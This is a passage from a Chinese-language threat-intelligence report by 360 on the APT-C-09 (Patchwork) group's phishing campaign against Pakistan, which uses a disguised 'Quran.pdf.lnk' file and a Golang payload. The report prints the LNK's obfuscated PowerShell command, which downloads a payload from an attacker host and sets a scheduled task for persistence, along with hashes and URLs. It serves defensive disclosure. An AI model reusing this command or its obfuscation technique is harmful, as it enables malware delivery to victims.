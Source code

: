 # APT-C-09（摩诃草）组织Golang载荷窃密分析  

原创高级威胁研究院360威胁情报中心2024年07月22日11:43北京  

# APT-C-09  

# 摩诃草  

APT-C-09（摩诃草）（又称白象、Patchwork、DroppingElephant）是一个具有南亚国家背景的APT组织，长期针对巴基斯坦等周边国家进行网络攻击活动，以窃取敏感信息为主。尽管这些年该组织历史攻击行动及使用的攻击武器被国内外安全厂商多次揭露，但仍未停止其攻击，反而有越演越烈的趋势，一直处于活跃状态。  

近期，360高级威胁研究院发现该组织针对巴基斯坦地区的攻击样本，并捕获到基于Golang的新载荷，这类攻击载荷在摩诃草的历史攻击中比较少见。此外基于后台大数据分析关联，我们还捕获到了该组织在同一时期针对同一地区散布Quasar工具进行窃密的行为。这两种攻击武器的交替出现，表明该组织针对同一目标不遗余力，并不断丰富和扩展其攻击武器。因此，在本文中我们将披露这些攻击组件，特别是Golang新载荷，以便对此类威胁有更深入的了解。  

## 一、攻击活动分析  

### 1.恶意载荷分析  

本次攻击行动使用的钓鱼文件信息如下所示：  

<html><body><table><tr><td>MD5</td><td>0aa22fa3333c891a139187442ecf0e81</td></tr><tr><td>文件名称</td><td>Quran. pdf. lnk</td></tr><tr><td>文件大小</td><td>3.78 KB （3874字节）</td></tr><tr><td>文件类型</td><td>lnk</td></tr></table></body></html>  

该lnk打开时会调用powershell执行恶意指令。  

RelativePath:..\..\..\..\..\Windows\System32\WindowsPowerShel/\v1..0\power shell.exe   
Arguments:-W""i 1 \$ProgressPreference ='Si lentlyContinue';\$a='ps';\$c='h';\$b='tt';\$d=\$c+\$b+\$a;\$e='://quranchapter. t-cdn.org/wp-content/wp-includes/docaegeegrgseffefaa/22-Quran';\$f=\$d+\$e;c'url "\$f"-0 C:\Users\Public\22 Quran.pdf :sap's C:\Users\Public\22 Quran.pdf;\$z=://guranchapter.t-cdn.org/wp-includes/javascript/juicesdafekohioshfosh fhiofh/quran';\$y=\$d+\$z;c"'url "\$y"-0"C:\Users\Public\hunt";r''e''n -Path "C:\Users\Public\hunt"-NewName "C:\User s\Public\Winver.exe";c'p''i'C:\Users\Public\22 Quran.pdf'-destination.;sch''ta''s''ks/c''r''e''a''te/Sc minut e /Tn EdgeUpdate /tr'C:\Users\Public\Winver';e''r''a''s''e \*d?. ?n?  

该指令的功能为下载诱饵文件（https[:］//quranchapter.t-cdn.org/wp-content/wp-includes/docaegeegrgseffefaa/22-Quran）和恶意载荷（https[:］//quranchapter. t-cdn. org/wp-includes/javascript/juicesdafekohioshfoshfhiofh/quran ） ,并创建计划任务维持持久化。  

部分诱饵内容如下：  

![](https://cdn-mineru.openxlab.org.cn/extract/0b0ebabe-0adf-4de2-9d68-5936743e4156/0eb2abe743435ef0f661385557ce537d3d1a2b43e6e85bb60d030da933aca96f.jpg)  
APT-C-09（摩诃草）组织Golang载荷窃密分析  

### 2.攻击组件分析  

lnk文件下载的恶意载荷信息如下：  

<html><body><table><tr><td>MD5</td><td>4f8bd643c59658e3d5b04d760073cbe9</td></tr><tr><td>文件名称</td><td>Winver.exe</td></tr><tr><td>文件大小</td><td>5.36 MB （5619472字节）</td></tr><tr><td>文件类型</td><td>exe</td></tr></table></body></html>  
